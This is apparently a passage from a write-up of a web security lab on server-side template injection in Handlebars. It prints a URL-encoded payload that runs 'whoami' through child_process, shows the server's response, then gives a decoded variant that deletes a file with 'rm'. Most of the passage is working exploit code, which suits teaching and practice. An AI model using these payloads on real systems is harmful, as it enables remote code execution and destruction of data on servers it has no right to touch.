 So we send the req:
```bash
GET /?message=BBBB%7b%7b%23%77%69%74%68%20%22%73%22%20%61%73%20%7c%73%74%72%69%6e%67%7c%7d%7d%0d%0a%20%20%7b%7b%23%77%69%74%68%20%22%65%22%7d%7d%0d%0a%20%20%20%20%7b%7b%23%77%69%74%68%20%73%70%6c%69%74%20%61%73%20%7c%63%6f%6e%73%6c%69%73%74%7c%7d%7d%0d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%75%73%68%20%28%6c%6f%6f%6b%75%70%20%73%74%72%69%6e%67%2e%73%75%62%20%22%63%6f%6e%73%74%72%75%63%74%6f%72%22%29%7d%7d%0d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0d%0a%20%20%20%20%20%20%7b%7b%23%77%69%74%68%20%73%74%72%69%6e%67%2e%73%70%6c%69%74%20%61%73%20%7c%63%6f%64%65%6c%69%73%74%7c%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%75%73%68%20%22%72%65%74%75%72%6e%20%72%65%71%75%69%72%65%28%27%63%68%69%6c%64%5f%70%72%6f%63%65%73%73%27%29%2e%65%78%65%63%28%27%77%68%6f%61%6d%69%27%29%3b%22%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7b%23%65%61%63%68%20%63%6f%6e%73%6c%69%73%74%7d%7d%0d%0a%20%20%20%20%20%20%20%20%20%20%7b%7b%23%77%69%74%68%20%28%73%74%72%69%6e%67%2e%73%75%62%2e%61%70%70%6c%79%20%30%20%63%6f%64%65%6c%69%73%74%29%7d%7d%0d%0a%20%20%20%20%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%7d%7d%0d%0a%20%20%20%20%20%20%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7b%2f%65%61%63%68%7d%7d%0d%0a%20%20%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0d%0a%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0d%0a%20%20%7b%7b%2f%77%69%74%68%7d%7d%0d%0a%7b%7b%2f%77%69%74%68%7d%7d HTTP/2
Host: 0aa70089031a489a802c21eb003400c5.web-security-academy.net
Cookie: session=eQbpktoVHJpIdIOUTBHAb4T617Vvl8kF
```
And in the response we search for `BBB` and we find:
```bash
<div>BBBB
      e
      2
      [object Object]
        function Function() { [native code] }
        2
        [object Object]
            [object Object]

</div>
```
It means we can't see the output of our commands because of the way this payload for handlebars works...
But we anyway can send out of band requests or we can send a command that removes morale.txt file.
Therefore we modify and url encode the payload again:
```bash
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').exec('rm ./morale.txt');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```
